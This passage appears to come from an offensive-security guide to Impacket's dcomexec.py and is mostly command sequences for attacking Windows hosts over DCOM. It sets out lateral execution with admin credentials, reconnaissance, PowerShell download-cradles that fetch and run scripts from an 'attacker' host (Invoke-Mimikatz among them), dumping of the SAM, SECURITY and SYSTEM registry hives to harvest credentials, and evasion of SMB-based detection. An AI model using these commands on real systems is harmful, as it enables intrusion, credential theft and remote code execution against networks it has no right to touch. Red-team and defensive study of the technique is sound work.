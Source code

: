 ```bash
```

### Post-Exploitation Operations
```bash
# Step 1: Establish interactive shell via DCOM
python3 dcomexec.py -object MMC20 domain.com/admin:password@192.168.1.100

# Step 2: Execute reconnaissance commands
C:\> whoami /all
C:\> net localgroup administrators
C:\> wmic computersystem get domain
C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall"

# Step 3: Deploy additional tools
C:\> powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/script.ps1')"
```

### Credential Harvesting via DCOM
```bash
# Step 1: Access target via DCOM
python3 dcomexec.py -object ShellWindows domain.com/admin:password@192.168.1.100

# Step 2: Extract credentials using various techniques
C:\> reg save hklm\sam C:\temp\sam.hive
C:\> reg save hklm\security C:\temp\security.hive
C:\> reg save hklm\system C:\temp\system.hive

# Step 3: Use PowerShell for in-memory credential extraction
C:\> powershell -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"
```

### Cross-Platform DCOM Attacks
```bash
# Step 1: Execute from Linux to Windows targets
python3 dcomexec.py -object MMC20 domain.com/admin:password@windows-target.domain.com

# Step 2: Bypass traditional SMB-based detection
python3 dcomexec.py -nooutput domain.com/admin:password@192.168.1.100 "powershell -c 'Start-Process calc.exe'"

# Step 3: Use for environments where SMB execution is blocked
python3 dcomexec.py -object ShellBrowserWindow domain.com/admin:password@hardened-target.domain.com
```

## DCOM Object Compatibility

### MMC20.Application
- **Compatibility**: Windows 7, Windows 10, Server 2012R2+
- **Reliability**: High - Most stable across different Windows versions
- **Detection**: Moderate - MMC process creation may be monitored
- **Use Case**: Broad compatibility scenarios, primary choice for mixed environments
